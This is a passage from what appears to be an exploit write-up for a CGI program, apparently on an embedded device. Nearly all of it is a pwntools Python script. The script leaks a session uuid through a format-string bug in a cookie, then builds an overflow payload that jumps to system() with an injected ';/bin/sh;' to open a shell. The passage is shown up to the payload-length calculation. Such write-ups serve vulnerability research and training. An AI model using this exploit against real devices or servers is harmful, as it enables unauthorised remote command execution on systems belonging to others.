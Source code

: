 ```python

log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))
log.info("payload_length: "+str(len(payload)))
```



### 0x50 Final EXP

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import requests as rq

context.log_level="debug"

def leak_session(format):
	request_url = "http://127.0.0.1:80/55.cgi"

	headers_for_get_uuid = {
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
		"Content-Type":"application/x-www-form-urlencoded",
  	# 这里需要调试出偏移来泄漏uuid或者直接把uuid改了
		"Cookies": "uuid="+format 
	}

	res = rq.post(request_url,headers = headers_for_get_uuid)
	log.info("res: "+res.text)

  
#  leak session
for i in range(2,6):
  leak_session("%"+str(i)+"$p")

## get shell

headers = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
	"Content-Type":"application/x-www-form-urlencoded",
  # 替换掉这里的uuid
	"Cookies":"uuid=aaaabbbbccccdddd"
}

commend = ";/bin/sh;"

system = 0x00010BB0

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5 - 4
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust(0x2f8,"b")
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
```